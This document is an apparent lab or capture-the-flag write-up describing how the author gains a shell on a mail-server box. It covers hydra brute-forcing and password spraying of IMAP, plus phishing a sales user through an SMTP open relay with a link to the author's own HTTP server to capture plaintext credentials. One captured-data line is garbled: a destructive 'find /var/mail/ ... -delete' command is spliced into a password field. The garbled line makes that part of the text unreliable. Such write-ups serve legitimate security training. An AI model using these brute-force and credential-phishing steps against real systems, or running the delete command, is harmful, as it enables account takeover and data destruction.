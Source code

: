### Port 80

Add domain to `/etc/hosts` file.

I just found team usernames.

## Exploitation (Shell as brian.moore)

I am gonna brute-force usernames that I have found and modified using `username-anarchy` through hydra imap brute-forcing

![image.png](image%205.png)

```bash
hydra -L pot_usernames.txt -P pot_usernames.txt imap://$IP
```

![image.png](image%206.png)

I am gonna use these credentials to login to POP3

![image.png](image%207.png)

IT team should send password-reset links to sales team. I am gonna first send a link to my http-server and see what happens using open-relay functionality of SMTP. I am gonna send the email to`brian.moore@postfish.off` as he is in sales team.

`http://192.168.45.214/`

![image.png](image%208.png)

I received this:

![image.png](image%209.png)

We should setup a server that can accept POST requests.

I used the following [server script](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) to be able to accept post requests

![image.png](image%2010.png)

We received:

```bash
first_name=Brian
last_name=Moore
email=brian.moore%postfish.off
username=brian.moore
password=EternaLSunshinE
confifind /var/mail/ -type f ! -name sales -delete_password=EternaLSunshinE
```

Let’s perform password spraying with hydra:

```bash
hydra -L pot_usernames.txt -p EternaLSunshinE imap://$IP
```

